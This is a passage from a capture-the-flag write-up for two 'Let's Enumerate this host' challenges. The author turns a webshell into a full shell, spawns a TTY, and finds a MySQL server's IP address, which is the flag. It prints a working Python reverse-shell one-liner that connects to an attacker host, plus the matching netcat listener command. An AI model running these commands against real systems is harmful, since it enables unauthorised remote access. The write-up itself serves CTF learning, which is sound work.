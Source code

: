 ----------------

## Let's Enumerate this host a bit 1 {#lets-enumerate-the-host-a-bit-1}

#### Category: Workout at Home Gym | Solves: 131 | Points: 25

![lets-enumerate-1](https://i.imgur.com/ZDHDwyu.png)



Now that we have our webshell, let's get a full shell on this host to make enumeration on the filesystem easier.

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacking-ip>",6669));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

On our attacking server we setup a netcat listener:

`nc -nvlp 6669`

Once we catch the reverse shell we'll want to spawn a TTY:

`python -c 'import pty; pty.spawn("/bin/sh")'`

Now that we have a nice working shell, we can check for the IP address of the mysql server.

I went ahead and ran `ps aux | grep mysql` to look for a running instance of mysql:

![mysql](https://i.imgur.com/as3JoMo.png)

So, we know the IP address is `10.213.12.10`

{:refdef: .flag}
Flag: `10.213.12.10`
{:refdef}

----------------
[--- Back to Top ---](#intro)

----------------

## Let's Enumerate this host a bit 2 {#lets-enumerate-the-host-a-bit-1}

#### Category: Workout at Home Gym | Solves: 125 | Points: 50

![lets-enumerate-2](https://i.imgur.com/Eirr7Yy.png)

Next, we need to locate the root password of the SQL server account.

Well, we know from running our previous `ps aux | grep mysql` command that the www-data user has an active session connecting to the "gym" database on the SQL server with the root account.
